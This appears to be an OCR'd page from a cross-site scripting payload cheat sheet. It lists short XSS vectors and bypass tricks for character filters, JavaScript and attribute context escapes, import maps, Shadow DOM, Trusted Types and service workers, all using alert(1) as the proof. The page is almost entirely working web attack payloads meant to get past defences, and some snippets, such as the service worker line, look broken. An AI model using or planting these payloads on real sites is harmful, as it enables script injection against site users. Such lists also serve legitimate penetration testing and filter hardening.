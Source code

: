 ```javascript
# Short Payload
<svg/onload=alert(1)>
<img src=x onerror=alert(1)>
<q/oncut=alert(1)>
```

### Character Filter Bypass

Avoiding filtered characters:

```javascript
# Quotes Bypass
<img src=x onerror=alert`1`>
<script>alert(String.fromCharCode(88,83,83))</script>

# Parentheses Bypass
onerror=alert`1`
onclick=alert.call`1`
onmouseover=alert.bind`1`
```

### Context Escape Bypass

Breaking out of different contexts:

```javascript
# JavaScript Context
'-alert(1)-'
';alert(1)//
\';alert(1)//

# Attribute Context
" onmouseover="alert(1)
" autofocus onfocus="alert(1)
```

### Modern Browser Bypass

Targeting modern browser features and APIs:

```js
# Import Maps Abuse
<script type="importmap">{"imports": {"x": "data:text/javascript,alert(1)"}}</script>
<script type="module">import 'x'</script>

# Shadow DOM Injection
<div id=x></div>
<script>
x.attachShadow({mode:'open'}).innerHTML='<img src=x onerror=alert(1)>'
</script>

# Trusted Types Bypass
<script>
trustedTypes.createPolicy('p',{createHTML:_=>\'<img src=x onerror=alert(1)>\'}).createHTML('')
</script>

# Service Worker Injection
<script>
navigator.serviceWorker.register('data:text/javascript,alert(1)')
</script>
```

